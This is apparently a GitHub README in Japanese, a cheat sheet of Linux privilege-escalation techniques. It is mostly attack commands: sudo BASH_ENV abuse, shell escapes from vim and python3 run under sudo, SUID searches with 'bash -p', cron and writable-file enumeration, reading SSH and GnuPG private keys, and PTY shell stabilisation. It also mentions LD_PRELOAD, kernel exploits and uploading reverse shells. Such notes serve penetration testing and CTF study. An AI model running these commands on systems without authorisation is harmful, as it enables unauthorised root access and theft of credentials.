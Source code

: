 # 🛡️ Linux 権限昇格手順まとめ
## 1.Sudo 権限を利用した昇格
### a.実行可能な sudo コマンドを確認

### b.sudo 環境変数汚染（BASH_ENV）

echo 'bash -p' > /tmp/exp.sh

chmod +x /tmp/exp.sh

sudo BASH_ENV=/tmp/exp.sh /usr/bin/systeminfo

### c.環境変数が継承されない場合

sudo -s

または

sudo -i

### d.sudo で実行できるエディタやインタプリタの利用

sudo /usr/bin/vim -c ':!/bin/sh'

sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'

## 2.SUID ビット付きファイルの利用

find / -perm -4000 -type f 2>/dev/null

例（bashにSUIDがある場合）:

/tmp/bash -p

whoami

## 3.書き込み可能なファイルやディレクトリの調査
find / -writable -type d 2>/dev/null

find / -writable -type f 2>/dev/null

## 4.Cron ジョブの調査
cat /etc/crontab

ls -la /etc/cron.*

systemctl list-timers --all

## 5.環境変数を悪用した昇格
PATH の改変

LD_PRELOAD や LD_LIBRARY_PATH の利用

特に root で実行されるスクリプトで外部コマンドを呼ぶ場合に有効。

## 6.パスワードや秘密鍵の発見
cat ~/.gnupg/*

cat ~/.ssh/id_rsa

## 7.ローカル脆弱性の利用

カーネルの既知の脆弱性を使う（例: Dirty COW、sudoバグなど）

以下のツールを使うと便利:

searchsploit

linux-exploit-suggester

linpeas.sh

## 8.Webシェルやファイルアップロードを利用した昇格

PHP/Pythonのリバースシェルをアップロード

TTY付きシェルで安定した操作を確保

## 9.その他Tips

### Capability付きファイルの確認

getcap -r / 2>/dev/null

cap_setuid などがついていれば昇格に使える可能性あり。

### TTYを使ったシェルの安定化（Python）

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm
